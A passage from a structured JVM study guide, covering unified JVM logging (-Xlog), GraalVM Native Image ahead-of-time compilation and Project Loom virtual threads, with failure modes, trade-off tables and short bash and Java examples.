  Message: log_info(gc, phases)("pause 45ms")
  Check: gc+phases at info -> matches gc*=info
  Action: write to stdout AND gc.log

  Message: log_debug(gc, ergo)("IHOP 45%")
  Check: gc+ergo at debug -> gc*=info requires info+
  Action: debug < info threshold -> SKIP (no cost)
```



---

### 🚨 Failure Modes

**Failure 1 - Disk Exhaustion from Trace Logging:**

**Symptom:** Service runs out of disk. Investigation reveals 50GB of JVM log files that were never rotated.

**Root cause:** `-Xlog:gc*=trace:file=gc.log` without rotation parameters. Trace-level GC logging produces GB/hour on active services.

**Diagnostic:**

```bash
# Check log file sizes:
ls -lh /var/log/jvm/gc*.log
# If > 1GB and growing: missing rotation
```

**Fix:** Always include rotation: `-Xlog:gc*=info:file=gc.log::filesize=100m,filecount=5`. Use info level in production (trace only for short debug sessions).

**Failure 2 - Performance Impact from Debug Tags:**

**Symptom:** 5-10% throughput regression after adding JVM logging. Reverts when logging removed.

**Root cause:** Debug or trace level on high-frequency tags (gc+tlab=debug produces output for every TLAB refill - millions per second).

**Diagnostic:**

```bash
# Count log lines per second:
wc -l gc.log # check growth rate
# If > 10K lines/sec: too verbose
```

**Fix:** Reduce to info level. Debug/trace only for specific investigation windows. Use `-Xlog:gc+tlab=off` to explicitly silence high-volume tags.

---

### 🔬 Production Reality

The migration from legacy GC flags to `-Xlog` typically happens during JDK 11 or 17 upgrades. Common pitfall: teams copy legacy flags (`-XX:+PrintGCDetails`) into JDK 17 configuration - these are silently ignored, producing NO GC logs. The team discovers this months later during an incident when GC logs are needed but absent. Recommended: validate that GC logs are being produced as part of service health checks. Include a startup check that verifies the log file exists and is growing.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | -Xlog (unified)     | Legacy flags          | JFR Events            |
| -------------- | ------------------- | --------------------- | --------------------- |
| JDK version    | 9+                  | 8 and earlier         | 11+ (free)            |
| Consistency    | All subsystems same | Each subsystem unique | Event-based (diff.)   |
| Rotation       | Built-in            | -Xloggc only          | Ring buffer (maxsize) |
| Real-time view | tail -f             | tail -f               | JMC or streaming API  |
| Analysis tools | GCViewer, GCEasy    | Same tools            | JMC, JFR analytics    |

---

### ⚡ Decision Snap

**USE -Xlog ALWAYS WHEN:**

- JDK 9+ in use (all modern deployments).
- Need GC, JIT, safepoint, or classloading diagnostics.
- Production services (always-on with rotation).

**COMBINE WITH JFR WHEN:**

- Need event-level correlation (JFR events + Xlog context).
- Want machine-parseable records (JFR) alongside human-readable logs (Xlog).

**KEEP LEGACY FLAGS WHEN:**

- Still on JDK 8 (no unified logging available).
- Migration in progress (test -Xlog output matches expected format before removing legacy).

---

### ⚠️ Top Traps

| #   | Misconception                         | Reality                                                                                                                  |
| --- | ------------------------------------- | ------------------------------------------------------------------------------------------------------------------------ |
| 1   | "Legacy flags still work on JDK 17"   | Most are silently ignored. You get NO output without realizing it. Always use -Xlog on JDK 9+.                           |
| 2   | "-Xlog:gc gives full GC detail"       | `gc` alone is top-level only. Use `gc*` to include all GC sub-tags (phases, heap, age, ergo).                            |
| 3   | "Always use trace level for max info" | Trace on GC-related tags produces millions of lines. Info is correct for production. Trace only for debug sessions.      |
| 4   | "One -Xlog flag is enough"            | Use multiple: one for GC (file), one for safepoints (file), one for startup (stdout). Composable routing is the feature. |
| 5   | "File rotation is automatic"          | You must explicitly add `filesize=X,filecount=Y`. Without it, files grow unbounded.                                      |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-046 GC Logging and Analysis - understand what GC logs contain and how to read them
- JVM-041 jcmd - The Swiss Army Knife - jcmd can adjust log levels at runtime

**THIS:** JVM-089 Unified JVM Logging (-Xlog)

**Next steps:**

- JVM-088 JFR Custom Events and Continuous Profiling - JFR complements -Xlog with event-based recording
- JVM-095 JVM Fleet Observability - Key Metrics - GC logs feed fleet metrics pipelines

---

**The Surprising Truth:**

You can change `-Xlog` configuration at runtime without restarting the JVM. `jcmd <pid> VM.log list` shows current configuration. `jcmd <pid> VM.log output="file=debug.log" what="gc*=debug"` adds a new output at runtime. This means you can add debug-level GC logging to a running production JVM for 5 minutes to capture a specific issue, then remove it - without any restart. This is dramatically more powerful than legacy flags which required restart to change.

**Further Reading:**

- JEP 158: Unified JVM Logging (design and rationale)
- JEP 271: Unified GC Logging (GC-specific integration)
- OpenJDK wiki: "Unified Logging" - complete tag and decorator reference

**Revision Card:**

1. Syntax: `-Xlog:TAG*=LEVEL:OUTPUT:DECORATORS:ROTATION`. Example: `-Xlog:gc*=info:file=gc.log:time,tags::filesize=100m,filecount=5`.
2. Always use `-Xlog` on JDK 9+. Legacy flags silently ignored on JDK 17+. Validate GC logs are actually produced.
3. Runtime adjustment: `jcmd <pid> VM.log output="file=debug.log" what="gc*=debug"` - add/remove log outputs without restart.

**BAD:**

```bash
# Legacy flags on JDK 17 - SILENTLY IGNORED
java -XX:+PrintGCDetails \
  -XX:+PrintGCDateStamps \
  -Xloggc:gc.log \
  -jar service.jar
# Result: NO gc.log produced. No warning.
# Discovered 3 months later during incident.
```

**GOOD:**

```bash
# Unified logging with rotation
java \
  -Xlog:gc*=info:file=gc.log:time,tags::filesize=100m \
  -Xlog:safepoint=info:file=gc.log:time \
  -Xlog:gc+ergo=debug:file=gc-ergo.log:time::filesize=50m \
  -jar service.jar
# Always produces output. Built-in rotation.
# Verify: ls -la gc.log (should exist + grow)
```

---

---

# JVM-090 Ahead-of-Time Compilation (GraalVM Native)

**TL;DR** - GraalVM Native Image compiles Java to executables at build time, eliminating JIT warmup and reducing startup to milliseconds - trading peak throughput for instant readiness.

---

### 🔥 Problem Statement

A serverless Java function takes 3-5 seconds to handle its first request (JVM startup + classloading + JIT warmup). The platform bills per 100ms. Cold starts cost 30-50x more than warm invocations and violate the 500ms latency SLA. Serverless platforms favor Go/Rust with instant startup. Native Image compilation produces a binary that starts in 50ms with full functionality on first request - making Java competitive in serverless and CLI scenarios where startup time dominates total execution time.

---

### 📜 Historical Context

GraalVM Native Image (Oracle, 2018) applied decades of research in ahead-of-time (AOT) compilation to Java. Earlier AOT attempts (Excelsior JET, GNU GCJ) existed but lacked the ecosystem integration to succeed. GraalVM's approach uses a "closed-world assumption" - analyzing all reachable code at build time via points-to analysis. This produces native binaries with no JVM dependency. The trade-off: no runtime class loading, limited reflection (must be configured), no JIT optimization. Quarkus (Red Hat, 2019) and Micronaut (OCI, 2018) were designed ground-up for Native Image compatibility.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Closed-world assumption:** All code reachable at runtime must be known at build time. No dynamic class loading, no unreflected reflection, no unregistered JNI.
2. **No JIT = no adaptive optimization:** Peak throughput is lower than JIT-optimized code (typically 10-30% less). The binary cannot specialize based on runtime profiles.
3. **Build-time initialization replaces runtime:** Static initializers and class loading happen during build. Runtime starts with pre-initialized heap snapshot (image heap).

**DERIVED DESIGN:**

These invariants mean: (1) reflection, proxies, and resources must be declared in configuration files at build time, (2) frameworks must be "native-aware" or use build-time processing (Quarkus, Micronaut), (3) the trade-off is startup/memory vs peak throughput.

**THE TRADE-OFF:**

**Gain:** 50ms startup (vs 3-5s). 50MB RSS (vs 300-500MB). Instant peak performance (no warmup). Container image 50MB (vs 300MB with JDK).

**Cost:** 10-30% lower peak throughput. Long build times (2-10 min). No runtime reflection without configuration. Limited debugging. Build-time complexity.

---

### 🧠 Mental Model

> Traditional JVM is like a Formula 1 car that needs 3 laps to warm up tires and engine (JIT warmup). Peak speed is phenomenal but the warm-up laps are wasted time. Native Image is like a sports car that is race-ready instantly from ignition - good performance from the start but never quite reaches F1 peak speed. For short races (serverless, CLI), instant readiness wins. For long races (24/7 services), peak speed wins.

- "F1 warm-up laps" -> JIT warmup (seconds to minutes)
- "Peak speed after warm-up" -> JIT-optimized throughput
- "Sports car instant start" -> Native Image (50ms startup)
- "Never reaches F1 speed" -> 10-30% lower peak throughput
- "Short race" -> serverless, CLI (startup dominates)
- "Long race" -> 24/7 service (throughput dominates)

**Where this analogy breaks down:** the F1 car's warm-up is fixed time regardless of race length. JVM warmup amortizes to near-zero for long-running services. Also, native images have a fixed ceiling - they cannot get faster over time, while JIT continuously reoptimizes.

---

### 🧩 Components

- **Points-to analysis:** Build-time static analysis determining all reachable code paths. Eliminates dead code. Input to compilation.
- **Image heap:** Pre-initialized Java heap baked into the binary. Objects created during build-time initialization are available at runtime start (zero-cost initialization).
- **Substrate VM:** Minimal runtime replacing HotSpot. Provides GC (Serial or G1), threading, and exception handling. No JIT, no classloading.
- **Reflection configuration:** JSON files declaring which classes/methods are accessed reflectively. Required because reflection bypasses static analysis.
- **Build-time initialization:** Classes whose static initializers can be safely run at build time are initialized then. Their state is in image heap.

```text
Comparison: JVM vs Native Image startup

JVM mode:
  t=0ms:    JVM starts, loads classes
  t=500ms:  Framework initializes (Spring DI)
  t=2000ms: First request handled (interpreted)
  t=30s:    JIT compiled - peak throughput
  Startup: 2-5s, Peak: 100% throughput

Native Image mode:
  t=0ms:    Binary starts, image heap ready
  t=50ms:   First request handled (AOT compiled)
  t=50ms:   Already at peak (no warmup)
  Startup: 50ms, Peak: 70-90% of JIT throughput

Memory comparison:
  JVM:          300-500MB RSS (JVM + metaspace + heap)
  Native Image: 30-80MB RSS (no JVM overhead)
```



---

### 📶 Gradual Depth

**Level 1 - What it is:** GraalVM Native Image compiles your Java application into a standalone executable (like a Go or Rust binary). It starts in milliseconds instead of seconds, uses much less memory, but has some limitations (no dynamic classloading, reflection needs configuration).

**Level 2 - How to use it:** Use frameworks designed for Native Image (Quarkus, Micronaut, Spring Boot 3 with AOT). Build: `./mvnw package -Pnative`. Test thoroughly - some libraries are incompatible (byte code generation, unregistered reflection). Build takes 2-10 minutes.

**Level 3 - How it works:** At build time, Native Image performs a whole-program analysis starting from main(). It traces all reachable code paths (points-to analysis), compiles them to machine code, and snapshot-initializes the heap. The resulting binary includes the application + a minimal runtime (SubstrateVM) + pre-initialized state. No JDK needed at runtime.

**Level 4 - Production mastery:** Critical decisions: (1) Is startup time your bottleneck? If service runs 24/7, JIT throughput likely wins. If serverless/CLI, native wins. (2) Is your dependency graph native-compatible? Libraries using reflection/proxies/classloading heavily (Hibernate, Spring without AOT) require extensive configuration or alternatives. (3) Build time: 2-10 minutes per build. Acceptable for CI/CD but slow for development iteration. Use JVM mode for development, native for deployment.

---

### ⚙️ How It Works

**Phase 1 - Entry Point Analysis:** Start from main(). Build call graph of all reachable methods.

**Phase 2 - Points-to Analysis:** For each variable/field, determine all possible types it can hold at runtime (flow-sensitive). This enables dead code elimination and devirtualization.

**Phase 3 - Build-time Initialization:** Run static initializers of safe classes. Snapshot their state into the image heap.

**Phase 4 - AOT Compilation:** Compile all reachable methods to native machine code. Apply optimizations (inlining, escape analysis) based on static analysis.

**Phase 5 - Linking:** Produce platform-specific executable containing compiled code, image heap, and SubstrateVM runtime.

```text
Build process:
  Source -> Analysis -> Compilation -> Binary

  Points-to analysis output:
    - Reachable classes: 2,500 (from 10,000)
    - Reachable methods: 15,000 (from 80,000)
    - Dead code eliminated: 80%+

  Image composition:
    [machine code: 30MB] +
    [image heap: 15MB] +
    [SubstrateVM: 5MB] =
    [binary: ~50MB]

  vs JDK deployment:
    [JDK: 200MB] + [app.jar: 50MB] +
    [runtime heap: 256MB] = 500MB+
```



---

### 🚨 Failure Modes

**Failure 1 - Missing Reflection Configuration:**

**Symptom:** Runtime exception: `ClassNotFoundException` or `NoSuchMethodException` for classes that work fine in JVM mode.

**Root cause:** Library uses reflection to access classes/methods not found by static analysis. Build-time analysis could not see these paths.

**Diagnostic:**

```bash
# Run with agent to detect reflection usage:
java -agentlib:native-image-agent=config-output-dir=conf \
  -jar app.jar
# Exercise all code paths
# Agent produces reflect-config.json
```

**Fix:** Include generated config: `native-image --no-fallback -H:ReflectionConfigurationFiles=conf/reflect-config.json`. Or use framework-provided hints (Quarkus @RegisterForReflection).

**Failure 2 - Build-time Initialization Side Effects:**

**Symptom:** Native binary starts with stale configuration (reads config file at build time, not at deploy time). Or connects to build-machine database at startup.

**Root cause:** Class static initializer runs at BUILD time (reads env vars, files, network from build environment). Those values are baked into the image heap.

**Diagnostic:**

```bash
# Check if class is build-time initialized:
native-image --initialize-at-build-time=... \
  --trace-class-initialization=com.app.Config
```

**Fix:** Mark configuration classes for runtime initialization: `--initialize-at-run-time=com.app.Config`. Move configuration reads from static initializers to runtime methods.

---

### 🔬 Production Reality

The adoption pattern for Native Image: start with serverless functions and CLI tools (clear startup benefit). Expand to Kubernetes-based microservices where faster startup means faster autoscaling and rolling deployments. Avoid for: long-running stateful services where JIT throughput advantage matters (databases, caches, compute-intensive workloads). The break-even point is roughly: if your service restarts less than once per hour and processes sustained traffic, JIT mode likely wins. If it scales to zero, restarts frequently, or needs sub-second cold start, native wins.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | Native Image    | JVM + JIT       | CRaC (checkpoint) |
| --------------- | --------------- | --------------- | ----------------- |
| Startup         | 50ms            | 3-5s            | 50-200ms          |
| Peak throughput | 70-90% of JIT   | 100% (baseline) | 100% (after warm) |
| Memory (RSS)    | 30-80MB         | 300-500MB       | Same as JVM       |
| Build time      | 2-10min         | Seconds         | Normal + snapshot |
| Reflection      | Config required | Full support    | Full support      |
| Debugging       | Limited         | Full (JDWP)     | Full              |

---

### ⚡ Decision Snap

**USE NATIVE IMAGE WHEN:**

- Startup time is critical (serverless, CLI, autoscaling).
- Memory footprint must be minimal (edge, IoT, high density).
- Application is Native Image-compatible (tested).

**USE JVM + JIT WHEN:**

- Long-running service (throughput > startup).
- Heavy use of reflection/proxies without native-aware framework.
- Development speed matters (fast iteration).

**USE CRaC WHEN:**

- Need JVM benefits + fast startup.
- Application can checkpoint cleanly (no open file handles to external services at snapshot time).
- JDK 21+ with CRaC support.

---

### ⚠️ Top Traps

| #   | Misconception                         | Reality                                                                                                           |
| --- | ------------------------------------- | ----------------------------------------------------------------------------------------------------------------- |
| 1   | "Native = always faster"              | Only startup is faster. Peak throughput is 10-30% lower than JIT (no profile-guided optimization).                |
| 2   | "Any Java app can go native"          | Libraries using reflection, proxies, or classloading need configuration or alternatives. Not plug-and-play.       |
| 3   | "Native Image is GraalVM only"        | GraalVM Native Image is the main implementation, but the binary runs without GraalVM/JDK at runtime (standalone). |
| 4   | "Build once, run anywhere"            | Native binaries are platform-specific. Need separate builds for Linux/macOS/Windows. Cross-compilation limited.   |
| 5   | "Spring Boot works native out of box" | Spring Boot 3+ supports native but many Spring ecosystem libraries need AOT hints. Test thoroughly.               |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-052 JIT Compilation Tiers (C1 and C2) - understand what native image gives up (JIT optimization)
- JVM-073 Java Module System (JPMS) and ClassLoader - native image eliminates classloading at runtime

**THIS:** JVM-090 Ahead-of-Time Compilation (GraalVM Native)

**Next steps:**

- JVM-091 Project Loom and Virtual Thread Scheduling - virtual threads work differently in native image
- JVM-092 JVM Compliance - FIPS, FedRAMP Considerations - native image compliance implications

---

**The Surprising Truth:**

Native Image's "image heap" (pre-initialized objects baked into the binary) is simultaneously its greatest power and greatest foot-gun. If a library's static initializer reads a configuration file during build, that configuration is permanently baked into every deployment of that binary. Changing configuration requires a rebuild. Teams have deployed production binaries containing their build machine's localhost database URL in the image heap, causing mysterious connection failures. The rule: NEVER initialize configuration, credentials, or environment-dependent state at build time.

**Further Reading:**

- GraalVM documentation: "Native Image Basics" - official reference
- JEP 295: Ahead-of-Time Compilation (early exploration, JDK 9)
- Christian Wimmer et al., "Initialize Once, Start Fast" (OOPSLA 2019) - image heap design

**Revision Card:**

1. Native Image: AOT compile Java to standalone binary. 50ms startup, 50MB RSS. 10-30% less peak throughput than JIT.
2. Closed-world assumption: all code must be known at build time. Reflection/proxies need JSON config or framework hints.
3. Use for: serverless, CLI, autoscaling. Avoid for: long-running throughput-critical services (JIT wins there).

**BAD:**

```java
// Static initializer reads config at build time
public class AppConfig {
    // This runs during native-image build!
    static final String DB_URL =
        System.getenv("DATABASE_URL");
    // Baked into binary: build machine's env var
    // Production binary has wrong DB_URL forever
}
```

**GOOD:**

```java
// Runtime initialization for env-dependent config
// native-image flag:
// --initialize-at-run-time=com.app.AppConfig
public class AppConfig {
    private static String dbUrl;
    public static String getDbUrl() {
        if (dbUrl == null) {
            dbUrl = System.getenv("DATABASE_URL");
        }
        return dbUrl;
    }
    // Read at runtime, not build time
}
```

---

---

# JVM-091 Project Loom and Virtual Thread Scheduling

**TL;DR** - Virtual threads (Project Loom, JDK 21) are JVM-scheduled lightweight threads enabling millions of concurrent blocking operations without platform thread memory overhead.

---

### 🔥 Problem Statement

A microservice handles 10,000 concurrent requests, each blocking on a database call for 50ms. With platform threads, this requires 10,000 OS threads (10GB stack memory at 1MB/stack). The OS scheduler degrades above 5,000 threads. Thread pools limit concurrency to 200 threads, creating request queuing. Virtual threads decouple the logical thread (what the programmer writes) from the carrier thread (what the OS schedules), allowing 10,000 concurrent blocking operations on 200 carrier threads with < 100MB overhead.

---

### 📜 Historical Context

Java's thread model mapped 1:1 to OS threads since JDK 1.2 (green threads removed in Solaris port). This forced the "thread pool + async" pattern for high-concurrency servers. Project Loom (started ~2017, preview JDK 19/20, GA JDK 21 via JEP 444) introduces M:N threading - many virtual threads multiplexed onto few carrier (platform) threads. The concept existed in other languages: Go goroutines, Erlang processes, Kotlin coroutines. Loom's innovation: virtual threads use the SAME `Thread` API and work with existing `synchronized` and blocking I/O code (mostly).

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Virtual threads are cheap:** Creation cost ~1us. Stack starts at ~1KB (grows on demand). Can have millions concurrently.
2. **Blocking unmounts, not blocks:** When a virtual thread calls blocking I/O (socket read, sleep, lock), it is unmounted from its carrier thread. The carrier is freed to run another virtual thread.
3. **Carrier threads are the real parallelism:** Number of carrier threads = CPU cores (by default). This is the actual parallelism limit. Virtual threads provide concurrency, not parallelism.

**DERIVED DESIGN:**

These invariants mean: (1) no need for thread pools to limit virtual thread count (create one per task), (2) blocking code style is efficient (no need for reactive/async frameworks for I/O-bound work), (3) CPU-bound work does not benefit (you still have N cores doing work).

**THE TRADE-OFF:**

**Gain:** Simple blocking code handles massive concurrency. No callback hell. No reactive framework complexity. 10,000-1,000,000 concurrent operations.

**Cost:** Pinning (synchronized blocks pin to carrier). Thread-locals consume more memory at scale. CPU-bound workloads see no benefit. Ecosystem maturity evolving.

---

### 🧠 Mental Model

> Platform threads are like taxi drivers (expensive, one per passenger journey). Virtual threads are like bus passengers (many share one bus/carrier). When a passenger sleeps (blocking I/O), they do not occupy the bus - they step off, and another passenger boards. The bus (carrier) is always productive. The city (OS) manages buses (carriers), not individual passengers.

- "Taxi driver" -> platform thread (1:1 with OS thread)
- "Bus" -> carrier thread (ForkJoinPool worker)
- "Passengers" -> virtual threads (lightweight, many per bus)
- "Stepping off bus" -> unmounting during blocking operation
- "City managing buses" -> OS scheduling carrier threads

**Where this analogy breaks down:** real passengers cannot "pause" mid-journey and resume later. Virtual threads save their stack and truly pause/resume. Also, the bus route is not fixed - any carrier can run any virtual thread at any point.

---

### 🧩 Components

- **Virtual thread:** Created via `Thread.ofVirtual().start(runnable)` or `Executors.newVirtualThreadPerTaskExecutor()`. Lightweight, user-mode scheduled.
- **Carrier thread:** Platform thread in the virtual thread scheduler's ForkJoinPool. Default count = `availableProcessors()`. Runs virtual threads.
- **Continuation:** Internal mechanism storing virtual thread's stack. On blocking, stack is saved (unmounted). On resume, stack is restored (mounted on any carrier).
- **Scheduler (ForkJoinPool):** Work-stealing pool managing carrier threads. Assigns runnable virtual threads to available carriers.
- **Pinning:** When a virtual thread holds a `synchronized` monitor, it cannot unmount from its carrier. The carrier is blocked.

```text
M:N threading model (Loom):
  Virtual threads (M):   10,000+
  Carrier threads (N):   = CPU cores (e.g., 8)

  Normal flow:
    VT-1 runs on Carrier-A
    VT-1 calls socket.read() (blocks)
    VT-1 unmounts from Carrier-A (stack saved)
    Carrier-A picks up VT-2 (runs immediately)
    socket.read() completes
    VT-1 scheduled to any free carrier
    VT-1 resumes (stack restored)

  Throughput: limited by carriers (CPU-bound)
  Concurrency: limited by memory for VT stacks
    10K VTs x 10KB stack = 100MB
    vs 10K platform threads x 1MB = 10GB
```



---

### 📶 Gradual Depth

**Level 1 - What it is:** Virtual threads let you create millions of threads without running out of memory. They are lightweight threads managed by the JVM instead of the OS. When a virtual thread blocks (waits for network/database), it frees up the underlying OS thread for other work.

**Level 2 - How to use it:** Replace `Executors.newFixedThreadPool(200)` with `Executors.newVirtualThreadPerTaskExecutor()`. Each task gets its own virtual thread. No pool sizing needed. Works with JDK 21+.

**Level 3 - How it works:** Virtual threads are multiplexed onto a small pool of carrier (platform) threads via continuations. When a virtual thread calls blocking I/O, the JVM saves its stack (continuation), unmounts it from the carrier, and mounts another ready virtual thread. When the I/O completes, the virtual thread is re-scheduled onto any available carrier.

**Level 4 - Production mastery:** Key pitfalls: (1) `synchronized` blocks PIN the virtual thread to its carrier (carrier cannot serve others). Replace hot synchronized blocks with `ReentrantLock` for virtual thread compatibility. Monitor with JFR event `jdk.VirtualThreadPinned`. (2) Thread-locals with large values at 100K virtual threads = 100K copies (memory explosion). Use scoped values (JDK 21 preview) instead. (3) CPU-bound code: virtual threads do NOT add parallelism - still limited by carrier count. Only I/O-bound workloads benefit.

---

### ⚙️ How It Works

**Phase 1 - Creation:** Virtual thread created with minimal stack (few KB). Registered with scheduler but not yet mounted on carrier.

**Phase 2 - Execution:** Scheduler assigns virtual thread to a free carrier. Virtual thread executes on the carrier's OS thread.

**Phase 3 - Blocking (unmount):** Virtual thread calls blocking operation (I/O, sleep, lock.lock()). JVM saves continuation (stack state). Unmounts virtual thread from carrier. Carrier is now free.

**Phase 4 - Resumption (mount):** Blocking operation completes. Virtual thread becomes runnable. Scheduler mounts it on any available carrier (may be different from original). Execution resumes from saved state.

```text
Virtual thread lifecycle:
  NEW -> RUNNABLE -> RUNNING (on carrier)
    -> BLOCKING (unmount from carrier)
    -> WAITING (carrier freed for others)
    -> RUNNABLE (I/O complete)
    -> RUNNING (mounted on any carrier)
    -> TERMINATED

Pinning scenario (synchronized):
  VT-1 enters synchronized block
  VT-1 calls socket.read() INSIDE sync block
  VT-1 CANNOT unmount (holds monitor)
  Carrier-A is BLOCKED (wasted)
  Other VTs waiting for Carrier-A starve
```



---

### 🚨 Failure Modes

**Failure 1 - Carrier Thread Starvation (Pinning):**

**Symptom:** Application throughput drops to near-zero. All carrier threads blocked despite low CPU. JFR shows `jdk.VirtualThreadPinned` events.

**Root cause:** Virtual threads pinned inside `synchronized` blocks that perform blocking I/O. All carriers occupied by pinned threads; no carriers available for other virtual threads.

**Diagnostic:**

```bash
# JFR event for pinning:
jcmd <pid> JFR.start duration=30s \
  settings=profile filename=pin.jfr
# In JMC: look for VirtualThreadPinned events
# -Djdk.tracePinnedThreads=short (JDK 21)
```

**Fix:** Replace `synchronized` with `ReentrantLock` for blocks that perform I/O:

```java
// Instead of: synchronized(lock) { io(); }
private final ReentrantLock lock = new ReentrantLock();
lock.lock();
try { io(); } finally { lock.unlock(); }
// ReentrantLock allows unmounting during I/O
```

**Failure 2 - ThreadLocal Memory Explosion:**

**Symptom:** OutOfMemoryError with millions of virtual threads. Each thread holding ThreadLocal with large object (connection, buffer).

**Root cause:** ThreadLocals multiplied by virtual thread count. 1M threads x 64KB buffer = 64GB.

**Diagnostic:**

```bash
# Heap dump - search for ThreadLocalMap
# entries with large values
# Count unique Thread instances in heap:
jcmd <pid> GC.class_histogram | grep Thread
```

**Fix:** Use scoped values (JDK 21 preview) or eliminate ThreadLocals in virtual thread code. Pass context explicitly.

---

### 🔬 Production Reality

